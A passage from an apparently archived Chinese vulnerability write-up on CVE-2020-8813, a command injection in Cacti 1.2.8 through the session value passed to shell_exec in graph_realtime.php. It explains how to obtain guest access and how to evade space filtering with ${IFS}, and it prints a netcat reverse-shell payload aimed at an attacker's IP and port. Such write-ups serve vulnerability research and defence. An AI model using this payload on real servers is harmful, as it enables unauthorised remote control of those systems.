 我们得到另一个传递给shell\_exec的变量，它是"
session\_id（）"函数的值，该函数将返回用户当前会话的值，这意味着我们可以使用它来注入命令！

可是等等！如果我们操纵了会话，则将无法访问该页面，因为该页面要求对用户进行身份验证才能访问该页面。因此，在软件中进行了一些额外的挖掘之后，我发现如果我们能够以访客身份访问该页面启用了一种称为"实时图"的特殊特权，我们可以从此页面看到：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-8813)Cactiv1.2.8远程命令执行漏洞/media/rId26.png)

让我们尝试在没有启用"访客实时图"特权的情况下访问此页面：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-8813)Cactiv1.2.8远程命令执行漏洞/media/rId27.png)

如我们所见，由于权限问题，我们无法访问该页面，不允许尝试启用它并访问该页面以获取以下内容：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-8813)Cactiv1.2.8远程命令执行漏洞/media/rId28.png)

完美的是，我们访问了页面，现在我将向"
graph\_realtime.php"发送请求，并添加一条调试语句，该语句将回显将传递给shell\_exec的参数：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-8813)Cactiv1.2.8远程命令执行漏洞/media/rId29.png)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-8813)Cactiv1.2.8远程命令执行漏洞/media/rId30.png)

如我们所见，我们将会话打印输出给我们，因此让我们尝试将自定义字符串注入会话中，看看会发生什么：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-8813)Cactiv1.2.8远程命令执行漏洞/media/rId31.png)

### payload编写

在控制了会话值之后，我们需要使用它来在系统上执行代码，但这仍然是一个会话值，这意味着即使对它进行编码也不能在其中使用某些字符，因此我们需要编写"会话友好"
"，我们可以注入这些有效负载而无需强制应用程序为我们生成另一个Cookie值。

例如，如果我对字符串" Hi
Payload"进行编码并将其传递给应用程序，我将得到以下信息：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-8813)Cactiv1.2.8远程命令执行漏洞/media/rId33.png)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-8813)Cactiv1.2.8远程命令执行漏洞/media/rId34.png)

如我们所见，该应用程序为我们设置了一个cookie而不是我们注入的cookie，因此要解决此问题，我们需要使用自定义有效负载。

因此，为了避免使用空格，我想到了使用" \$ {IFS}"
bash变量来表示空格的想法。

当然，我们需要使用";"转义命令 如下所示：

    ;payload

如果要使用netcat获得外壳，则需要创建以下有效负载：

    ;``nc``${IFS}-e${IFS}``/bin/bash``${IFS}ip${IFS}port

让我们尝试一下，首先对有效负载进行编码，以查看结果：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-8813)Cactiv1.2.8远程命令执行漏洞/media/rId35.png)

